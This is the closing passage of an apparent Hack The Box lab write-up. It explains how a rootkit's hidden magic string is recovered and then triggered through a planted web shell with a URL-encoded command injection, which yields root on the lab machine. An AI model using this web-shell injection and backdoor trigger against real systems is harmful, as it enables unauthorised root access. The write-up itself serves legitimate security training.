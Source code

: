 {% endhighlight %}

Basically, the magic variable (which holds the magic string, duh) starts with the value 'to0Rt0g', which is g0tR0ot read backwards. However, before the comparison, it is modified to the concatenation of a and b. If a represents 't3g' and b 'v1rP', the concatenation would be 'g3tPr1v' (don't forget to read a and b backwards!). I used shell.php to execute the command that would elevate my shell's privilege:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/scavenger# curl "http://sec03.rentahacker.htb/shell.php?hidden=echo%20g3tPr1v%20%3E%20/dev/ttyR0;%20id"
uid=0(root) gid=0(root) groups=0(root),1004(customers)
root@fury-battlestation:~/htb/blog/scavenger#

{% endhighlight %}

For those of you who don;t want to urldecode online, I just executed ;echo g3tPr1v > /dev/ttyR0; id;

The root flag starts with '4a' 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuh1t0) 🙂

Until next time, hack the world.

yakuhito, over.

